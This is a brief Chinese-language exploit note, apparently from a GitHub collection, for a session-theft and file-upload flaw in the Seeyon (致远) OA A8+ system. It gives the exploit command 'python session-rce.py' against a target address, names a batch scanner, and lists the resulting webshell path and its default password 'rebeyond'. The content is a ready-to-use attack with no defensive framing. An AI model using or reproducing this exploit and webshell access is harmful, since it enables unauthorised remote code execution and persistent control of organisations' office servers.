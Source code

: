 ## 漏洞概述

致远OA通过发送特殊请求获取session，通过文件上传接口上传压缩包解压后可Getshell

## 影响范围

```http
A8+
```

## POC

大宝剑可批量扫描此漏洞，有误报性，配合EXP验证

## EXP

```bash
#脚本在此目录下
python session-rce.py http://192.168.1.100
```

```http
Shell地址：/seeyon/common/designer/pageLayout/a234.jspx
默认密码:rebeyond
```